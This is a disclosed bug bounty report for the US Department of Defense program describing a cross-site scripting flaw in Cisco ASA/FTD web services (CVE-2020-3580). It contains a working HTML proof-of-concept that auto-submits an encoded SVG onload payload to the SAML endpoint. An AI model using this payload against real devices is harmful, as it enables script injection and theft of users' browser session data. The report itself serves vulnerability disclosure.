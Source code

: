 # XSS due to CVE-2020-3580 [██████]

## Report Details
- **Report ID**: 1277392
- **URL**: https://hackerone.com/reports/1277392
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-07-25T20:33:02.059Z
- **Disclosed**: 2021-09-09T19:56:21.462Z

## Reporter
- **Username**: fdeleite
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Multiple vulnerabilities in the web services interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct cross-site scripting (XSS) attacks against a user of the web services interface of an affected device. 

 Steps To Reproduce 

 Go to this  URL 

 http://www.info-sec.cl/post-xss-███████.html 

 HTML POC:
 
 <html>
  <body>
 <script>history.pushState('', '', '/')</script>
 <form action='https://'████████'/+CSCOE+/saml/sp/acs?tgname=a' method='POST'>
 <input type='hidden' name='SAMLResponse' value='&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;document&#46;cookies&#41;&gt;'/>
 </form>
 <script>
 document.forms[0].submit();
</script>
</body>
</html>

## Impact

- An attacker could exploit these vulnerabilities by persuading a user of the interface to click a crafted link.
 - A successful exploit could allow the attacker to execute arbitrary script code in the context of the interface or allow the attacker to access sensitive, browser-based information. 

 Note: These vulnerabilities affect only specific AnyConnect and WebVPN configurations.

 Supporting Material References
 https://www.exploit-db.com/exploits/47988
 https://twitter.com/sagaryadav8742/status/1275170967527006208

## Attachments
No attachments
